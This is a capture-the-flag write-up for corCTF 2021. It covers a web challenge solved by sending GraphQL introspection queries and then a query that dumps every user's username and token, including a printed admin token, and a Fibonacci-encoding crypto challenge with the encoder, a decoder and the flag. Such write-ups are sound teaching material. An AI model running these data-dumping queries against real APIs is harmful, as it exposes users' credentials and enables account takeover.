






# Write up corCTF 2021



## web/devme

Challenge link [https://devme.be.ax/](https://devme.be.ax/)

### Statement



[Source website and devme.html here](devme/devme_files.zip)

### Solution

Using devtool that not give us anything special. Look up on the website, I see the form which allow me to POST something to server:


I try registing by (test@gmail.com) and using Burp to see what happen is going on:



When I register, the website redirect to "/graphql" and post a query so that sever create new user. And I realize that **graphql** is the problem. It can help me sending a query or retriving the database by the right query.

After studying about graphql, I try posting the below query to see the behind structure of its "graphql":
```grahpql
{
	"query":"query IntrospectionQuery {
		__schema {
			queryType{name}
			types {
				name
				fields {
					name
				}
			}
		}
	}"
}
```



As you can see, it show me some properties such as query type, type, name, field,.... This is the graphql structure of the website.

My mission is became easily. I think that I need to the data of User to get the admin data and try cheating.

```graphql
{
	"query":"query Query {
		users {
			username
			token
		}
	}"
}
```



I have the admin token <code>username":"admin","token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b</code> and I will write a query to POST to the website so that get the flag!

### Flag




## crypto/fibinary

### Statement


The challenge has two source code: [enc.py](fibinary/enc.py) and [flag.enc](fibinary/flag.enc)

### Solution

The source code [enc.py](fibinary/enc.py):
```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

def c2f(c):
	n = ord(c)
	b = ''
	for i in range(10, -1, -1):
		if n >= fib[i]:
			n -= fib[i]
			b += '1'
		else:
			b += '0'
	return b

flag = open('flag.txt', 'r').read()
enc = ''
for c in flag:
	enc += c2f(c) + ' '
with open('flag.enc', 'w') as f:
	f.write(enc.strip())
```
The flag.enc:
```10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100```

The challenge is relate to *Fibonacci* array. *c2f(c)* function is responsible for encryption. It converts each flag's letter to the binary array (len = 10).

So that I was write a noob script to decrypt the flag.enc ^^

```python
fib = [1, 1]
for i in range(2, 11):
	fib.append(fib[i - 1] + fib[i - 2])

#fib = [1, 1, 2, 3, 5, 8, 13, 21, 34, 55, 89]
enc = "10000100100 10010000010 10010001010 10000100100 10010010010 10001000000 10100000000 10000100010 00101010000 10010010000 00101001010 10000101000 10000010010 00101010000 10010000000 10000101000 10000010010 10001000000 00101000100 10000100010 10010000100 00010101010 00101000100 00101000100 00101001010 10000101000 10100000100 00000100100"
arr = enc.split()
_list = []

def convert(c):
    asc = 0
    for i in range (0, 10, 1):
        if (c[i] == "1"):
            asc = asc + fib[int(10-i)]
        else:
            continue
    return chr(asc)

for i in range(0, len(arr), 1):    
    _list.append(convert(arr[i]))

print("".join(_list))
```

{Result](fibinary/flag.png)

### Flag
>**corCTF{b4s3_4nd_f1bp!113d}**

